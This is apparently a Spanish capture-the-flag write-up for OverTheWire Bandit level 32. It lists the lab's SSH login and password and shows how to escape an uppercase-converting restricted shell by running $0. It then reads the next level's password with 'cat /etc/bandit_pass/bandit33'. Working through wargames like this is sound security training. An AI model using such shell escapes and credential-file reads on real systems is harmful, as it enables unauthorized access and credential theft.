 ## Objetivo
After all this `git` stuff its time for another escape. Good luck!## Objetivo
## Datos de acceso al nivel
ssh bandit32@bandit.labs.overthewire.org -p 2220
**_Password:_** rmCBvG56y58BXzv98yZGdO7ATVL5dW8y

## Solución

Cada comando insertado nos lo convierte a mayúsculas.
Como se trata de un shell interactivo, tenemos la posibilidad de ejecutarlo nuevamente.
Si usamos la variable $0.
```bash
WELCOME TO THE UPPERCASE SHELL
>> clear
sh: 1: CLEAR: Permission denied
>> ls
sh: 1: LS: Permission denied
>> LS
sh: 1: LS: Permission denied
>> $0
$ pwd
/home/bandit32
$ ls -la
total 36
drwxr-xr-x  2 root     root      4096 Apr 23 18:04 .
drwxr-xr-x 70 root     root      4096 Apr 23 18:05 ..
-rw-r--r--  1 root     root       220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root     root      3771 Jan  6  2022 .bashrc
-rw-r--r--  1 root     root       807 Jan  6  2022 .profile
-rwsr-x---  1 bandit33 bandit32 15128 Apr 23 18:04 uppershell
$ cat /etc/bandit_pass/bandit33
odHo63fHiFqcWWJG9rLiLDtPm45KzUKy
```
## Notas adicionales

## Referencias